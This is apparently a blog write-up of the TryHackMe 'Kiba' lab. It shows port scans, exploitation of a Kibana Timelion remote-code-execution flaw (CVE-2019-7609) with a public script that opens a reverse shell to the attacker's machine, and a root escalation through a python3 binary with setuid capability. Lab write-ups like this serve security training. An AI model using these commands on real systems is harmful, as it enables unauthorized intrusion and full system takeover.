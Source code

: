 ```yaml
---
layout: post
title: Kiba Writeup
date: 2020-09-01 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, anonymous-ftp, gtfobins] # add tag
---
```


## Description:

The Following Post is writeup of Kiba room of tryhackme <https://tryhackme.com/room/kiba>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | stuxnet

## Summary

  The Room have 3 open ports 22,80 and 5601. We can notice an open kibana instance in 5601. Now on searching about
  the version of kibana we got if have rce. Exploiting the rce and get a reverse shell. For PrivEsc it have a
  setuid capability running that will spawn a root shell.

## Walkthrough

### Enumeration

Let's start with nmap scan.

```bash
 ─[root@parrot]─[~/Desktop/kiba]
└──╼ $nmap -sC -sV -oA nmap/kiba -v 10.10.166.67
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-29 14:42 IST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:42
Completed NSE at 14:42, 0.00s elapsed
Initiating NSE at 14:42
Completed NSE at 14:42, 0.00s elapsed
Initiating NSE at 14:42
Completed NSE at 14:42, 0.00s elapsed
Initiating Ping Scan at 14:42
Scanning 10.10.166.67 [2 ports]
Completed Ping Scan at 14:42, 0.43s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:42
Completed Parallel DNS resolution of 1 host. at 14:42, 0.02s elapsed
Initiating Connect Scan at 14:42
Scanning 10.10.166.67 [1000 ports]
Discovered open port 22/tcp on 10.10.166.67
Discovered open port 80/tcp on 10.10.166.67
Increasing send delay for 10.10.166.67 from 0 to 5 due to 65 out of 216 dropped probes since last increase.
Increasing send delay for 10.10.166.67 from 5 to 10 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.166.67 from 10 to 20 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.166.67 from 20 to 40 due to max_successful_tryno increase to 6
Completed Connect Scan at 14:43, 42.87s elapsed (1000 total ports)
Initiating Service scan at 14:43
Scanning 2 services on 10.10.166.67
Completed Service scan at 14:43, 6.79s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.166.67.
Initiating NSE at 14:43
Completed NSE at 14:43, 8.85s elapsed
Initiating NSE at 14:43
Completed NSE at 14:43, 1.25s elapsed
Initiating NSE at 14:43
Completed NSE at 14:43, 0.00s elapsed
Nmap scan report for 10.10.166.67
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
ah that's 1000 port let's see masscan

```bash
┌─[✗]─[root@parrot]─[~/Desktop/argenestel.github.io]
└──╼ $sudo masscan -i tun0 -p0-10000 10.10.34.204

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-09-01 21:34:21 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [10001 ports/host]
Discovered open port 5601/tcp on 10.10.34.204                                  
Discovered open port 80/tcp on 10.10.34.204                                    
Discovered open port 22/tcp on 10.10.34.204
```

Let's start with kibana.
#### kibana

![kibana](/assets/img/kiba/openkibana.png)

We can see an open kibana instance.<br />
The version is 5.4.1 might be old let's see for any exploits.

![timelion](/assets/img/kiba/kibanatimelion.png)

There is a remote code execution in kibana at timelion function we can search about it.

<https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability>

### Exploitation

<https://github.com/LandGrey/CVE-2019-7609/>

```bash
└──╼ $./CVE-2019-7609-kibana-rce.py -u http://10.10.166.67:5601 -host 10.9.124.57 -port 4444 --shell
[+] http://10.10.166.67:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 10.9.124.57:4444

and

┌─[root@parrot]─[~/Downloads]
└──╼ $pwncat --listen --port 4444
[15:55:23] received connection from 10.10.166.67:39932                                                                  connect.py:148
[15:55:26] new host w/ hash be486dbcf9a5edbfffd09b3f51163d7b                                                             victim.py:329
[15:55:43] pwncat running in /bin/bash                                                                                   victim.py:362
[15:55:52] pwncat is ready 🐈                                                                                            victim.py:772


(remote) kiba@ubuntu:/$
```

gotcha

### PrivEsc

```bash

[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
Shell capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
Files with capabilities:
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

so we got root


(remote) kiba@ubuntu:/tmp$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/tmp#
```

Rooted Kiba :)
